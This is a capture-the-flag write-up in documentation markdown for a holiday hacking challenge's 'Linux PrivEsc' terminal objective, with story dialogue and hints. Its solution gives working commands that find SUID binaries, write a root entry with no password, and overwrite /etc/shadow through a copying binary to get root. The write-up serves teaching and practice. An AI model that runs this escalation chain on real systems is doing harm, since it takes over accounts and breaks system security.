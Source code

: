 ```yaml
---
icon: material/text-box-outline
---
```


# Linux PrivEsc

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star:<br/>
**Direct link**: [Objective URL](https://hhc23-wetty.holidayhackchallenge.com)

## Objective

!!! question "Request"
    Rosemold is in Ostrich Saloon on the Island of Misfit Toys. Give her a hand with escalation for a tip about hidden islands.

??? quote "Rose Mold"
    What am I doing in this saloon? The better question is: what planet are you from?<br/>
    Yes, I’m a troll from the Planet Frost. I decided to stay on Earth after Holiday Hack 2021 and live among the elves because I made such dear friends here.

## Hints

??? tip "Linux Privilege Escalation Techniques"
    There's various ways to escalate privileges on a Linux system.https://payatu.com/blog/a-guide-to-linux-privilege-escalation/

??? tip "Linux Command Injection"
    Use the privileged binary to overwriting a file to escalate privileges could be a solution, but there's an easier method if you pass it a crafty argument..



## Solution

Upon obtaining console access to the terminal, we started exploring interesting files on filesystem

```sh
find / -perm -u+s 2>/dev/null
```

And we found binary **/usr/bin/simplecopy** . This binary can copy any file from the system even with root permission. So the plan was to take over root permissions.

Next we checked directory /etc/shadow for its structure. Create simple sh2 file with root account without password.

```sh
echo -e "root::19634:0:99999:7:::" > sh2
```

Next using simplecopy binary we modified /etc/shadow file and from now "su" did not require any password so we could freely use root account

```sh
 simplecopy sh2 /etc/shadow
 su

```

### Images

![Terminal output](../img/objectives/o7/terminal-privesc.png)


!!! success "Answer"
    "santa"

## Response

!!! quote "Rose Mold"
    Yup, I knew you knew. You just have that vibe.

